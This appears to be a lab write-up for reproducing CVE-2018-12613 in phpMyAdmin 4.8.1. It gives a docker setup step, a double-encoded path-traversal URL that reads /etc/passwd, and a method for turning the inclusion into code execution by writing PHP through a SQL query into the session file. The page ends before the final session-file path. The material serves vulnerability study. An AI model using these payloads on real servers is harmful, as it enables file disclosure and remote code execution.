


phpmyadmin 4.8.1 Remote File Inclusion Vulnerability (CVE-2018-12613)¶
PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the index.php, causing files iclusion vulnerabilitiy.
Reference links:
Setup¶
Run the following command to start phpmyadmin 4.8.1:
docker compose up -d
After the environment starts, visit http://your-ip:8080. The phpmyadmin is "config" mode, so we can login directly.
Exploit¶
Visit http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd, the result indicates that the file inclusion vulnerability exist:

We can execute SELECT '<?=phpinfo()?>';, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:
